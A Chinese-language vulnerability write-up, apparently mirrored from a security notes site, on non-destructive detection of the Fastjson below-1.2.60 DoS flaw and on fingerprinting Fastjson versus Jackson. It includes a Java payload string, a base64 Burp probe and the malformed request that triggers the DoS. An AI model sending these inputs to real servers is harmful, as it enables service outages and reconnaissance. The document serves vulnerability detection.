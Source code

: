 # Fastjson <=1.2.60 DoS 漏洞无损检测+Fastjson 与 Jackson 组建区分

> 原文：[http://book.iwonder.run/0day/Fastjson/2.html](http://book.iwonder.run/0day/Fastjson/2.html)

## 一、漏洞简介

## 二、漏洞影响

Fastjson 1.2.60 以下版本

## 三、复现过程

针对 Fastjson DoS 漏洞的检测，相对较好识别，但其需要发送 DoS 的请求包，就会有一个时间延迟，但是部分使用者或 SRC 平台对 DoS 类漏洞持保守态度。

所以这里提出一种无损检测 Fastjson DoS 漏洞的方法。

首先有以下几种情况：

### 未知目标是否使用 Fastjson ，但站点有原始报错回显

如果站点有原始报错回显，可以用不闭合花括号的方式进行报错回显，报错中往往会有 fastjson 的字样

例如

![image](img/0d67fa2ffa9bb69e8985ce39284fdac8.png)

### 无回显，盲区分 Fastjson 和 Jackson

Java 系 Json 处理基本只有 Fastjson 和 Jackson。 由于 Jackson 相对比较严格, 这里可以很好分辨出 Fastjson 和 Jackson

如果请求包中的 json 如下:

{"name":"S", "age":21}

追加一个随机 key ,修改 json 为

{"name":"S", "age":21,"agsbdkjada__ss_d":123}

这里 Fastjson 是不会报错的, Jackson 因为强制 key 与 javabean 属性对齐,只能少不能多 key, 所以会报错,服务器的响应包中多少会有异常回显

Fastjson：

![image](img/01ed1804b0fd35e600a48429d0b7e2f3.png)

Jackson：

![image](img/0fe0cbf3d1bd7f9e9fa962900d3aed94.png)

### 无损检测原理

已经知道目标使用的是 Fastjson ,可以用以下 poc 去检测是否存在 DOS 漏洞

Fastjson < 1.2.60 在取不到值的时候会填充 \u001a , 在 1.2.60 进行了修复, 对 \x 后面的字符进行是否为 16 进制允许字符 (0-9a-fA-F) 的校验, 所以这里就可以手动 padding ,构造一个特殊的字符串

\x\u001a\u001a

测试代码:

Main.java

```
import com.alibaba.fastjson.JSON;

public class Main {
    public static void main(String[] args) {
        String payload = "{\"a\":\"\\x\u001a\u001a\"}";
        System.out.println(payload);
        Object o = JSON.parseObject(payload);
        System.out.println(o.getClass());
    }
} 
```

Fastjson < 1.2.60

pom.xml

```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>tophant</groupId>
    <artifactId>tcc</artifactId>
    <version>1.0-SNAPSHOT</version>
<dependencies>
    <dependency>
        <groupId>com.alibaba</groupId>
        <artifactId>fastjson</artifactId>
        <version>1.2.59</version>
    </dependency>
</dependencies>

</project> 
```

![image](img/5d0d0a772d22606efef8056f71ec4420.png)

Fastjson == 1.2.60，可以看到报错

pom.xml

```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>tophant</groupId>
    <artifactId>tcc</artifactId>
    <version>1.0-SNAPSHOT</version>
<dependencies>
    <dependency>
        <groupId>com.alibaba</groupId>
        <artifactId>fastjson</artifactId>
        <version>1.2.60</version>
    </dependency>
</dependencies>

</project> 
```

![image](img/5c2a09da8b173149816b34eb88080603.png)

### 使用 Burp 测试

在 Burp 中测试可以使用 : eyJhIjoiXHgaGiJ9 (base64 解码)

当后端 Fastjson 版本小于 1.2.60 时，使用该请求包不会延时不会报错

![image](img/50feb00f7a9a47a8924809a0b53d8051.png)

使用 {"a:"\x 进行请求就会发生 DOS

![image](img/ae78bf97ca07291ce64c4577fb0cdbae.png)

以上的检测方式也已经集成到 C/ARS 产品中，支持漏洞检测。

## 四、参考链接

> [https://blog.riskivy.com/%E6%97%A0%E6%8D%9F%E6%A3%80%E6%B5%8Bfastjson-dos%E6%BC%8F%E6%B4%9E%E4%BB%A5%E5%8F%8A%E7%9B%B2%E5%8C%BA%E5%88%86fastjson%E4%B8%8Ejackson%E7%BB%84%E4%BB%B6/](https://blog.riskivy.com/%E6%97%A0%E6%8D%9F%E6%A3%80%E6%B5%8Bfastjson-dos%E6%BC%8F%E6%B4%9E%E4%BB%A5%E5%8F%8A%E7%9B%B2%E5%8C%BA%E5%88%86fastjson%E4%B8%8Ejackson%E7%BB%84%E4%BB%B6/)

